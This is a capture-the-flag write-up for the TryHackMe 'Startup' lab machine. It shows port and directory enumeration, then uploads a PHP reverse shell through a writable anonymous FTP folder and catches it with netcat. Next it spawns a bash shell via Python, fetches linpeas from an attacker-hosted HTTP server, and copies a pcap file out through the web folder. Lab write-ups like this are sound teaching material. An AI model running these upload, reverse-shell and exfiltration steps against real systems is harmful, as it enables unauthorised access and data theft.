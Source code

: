 # THM-Startup
https://tryhackme.com/room/startup

Last CTF (THM - mrrobot) took to much time, mainly because I oweranalyzed things.
This one i´m going to look for the easy solutions.

## Lets go!

## Starting with standard enumeration.
********
### Nmap (top 1000 ports with script scan)
```
nmap 10.10.225.190 -sC
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http
|_http-title: Maintenance
```
We get that port 21, 22 and port 80 are open.
Because we used -sC we also get some extra info about FTP.
We can login as Anonumous and the ftp folder is writable.
We also get FTP and SSH server versions.
*************
### Dirbuster

```
dirb http://10.10.96.196 -w /usr/share/wordlists/dirb/common.txt

http://10.10.96.196/index.html
http://10.10.96.196/files/ftp/ 
```
Dirbuster shows that we can access the FTP folder from HTTP, **thats interesting** .
*******
### HTTP
The main web page is just a http file with nothing interesting.<br>
**But if we try the /files folder we get this!**<br>
![image](https://user-images.githubusercontent.com/93491173/216457959-4ac23f3e-f451-4385-82ff-23bda5fc37e2.png)<br>
The /ftp folder is empty.
*******
### FTP
The ftp folder writable, lets see what we can do with that.
We can start to upload pentestmonkey.php reverse shell.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
(local-file) /home/kali/THM/Startup/Files/pentestmonkey.php
(remote-file) pentestmonkey.php
local: /home/kali/THM/Startup/Files/pentestmonkey.php remote: pentestmonkey.php
```
That worked fine, and its shows up in the browser.
*********
### Reverse shell
Lets try to get a revers shell running.
```
(local host) nc -nlvp 4444
```
Open the pentestmonkey.php in the web browser, we are connected!
*********
### Spawn a shell thru Python
Now we need a usable shell, let use Python to launch a shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
**********
### The secret recipe
Read the file /recipe.txt
```
www-data@startup:/$ 
cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured <br> I can't keep it a secret forever and told him it was ****.
```
**********
### Linpeas (finding a weakness)
2 ways to get the Linpeas script oto the host.
1. 
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas.sh
chmod +x linpeas.sh
```

```
download to LHOST
start a http server on LHOST
python -m http.server 53

Download to RHOST
cd /tmp
wget http://LHOST-IP:53/linpeas.sh
chmod +x linpeas.sh
```
Now lets run Linpeas
```
www-data@startup:/tmp$ ./linpeas.sh
```
Here we can se a suspicius file **/incidents/suspicious.pcapng**
Transfere the file to the LHOST using the FTP folder.
```
Copy file to HTTP/FTP folder. 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
Dowload the file from: 
http://RHOST/files/ftp/suspicius.pcapng
```
